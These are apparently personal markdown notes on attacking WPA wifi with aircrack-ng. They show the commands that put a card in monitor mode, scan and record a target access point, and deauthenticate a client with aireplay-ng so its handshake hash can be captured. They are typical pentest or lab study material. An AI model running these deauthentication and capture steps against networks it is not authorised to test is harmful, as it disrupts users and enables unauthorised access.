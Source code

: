 3. TO START USING WIFI DEVICE IN MONITOR MODE

```bash
ip link
```

- Will show interface names on out system - mine is wlan0

```bash
sudo airmon-ng start wlan0
```

- Will show any processes to kill that could interfere. Kills NetworkManager

```bash
sudo airmon-ng check kill
```

- Kills the processes that can cause trouble

## **Step By Step**

1.  PUT DEVICE IN MONITOR MODE

```bash
airmon-ng start wlan0
```

- Start monitor mode (can do stop or restart)

---

2.  GET DATA FROM BROADASTING APs AND CLIENTS

- Gives 2 sections.
  - TOP is APs, with BSSID address, channel, authentication type, SSID name.
  - BOTTOM is clients and AP its connected to. THIS STEP IS SO YOU CAN SEE BSSID ADDRESSES, WIFI NAMES, AUTH TYPE & CHANNEL

```bash
airodump-ng wlan0
```

- Starts showing active info

---

3.  [TERMINAL 1] GET DATA FROM TARGET AP (example)

- This starts to record packets and capture info we need in diff files.

```bash
airodump-ng -c 2 --bssid B0:BE:76:E0:3D:AB -w rootdownPSK wlan0
```

---

4.  [TERMINAL 2] DEAUTHENTICATE CLIENT FROM AP

- Knock client off in hopes they re-establish with handshake and you capture hash

```bash
aireplay-ng --deauth 100 -a AP_MAC -c CLIENT-MAC wlan0
```
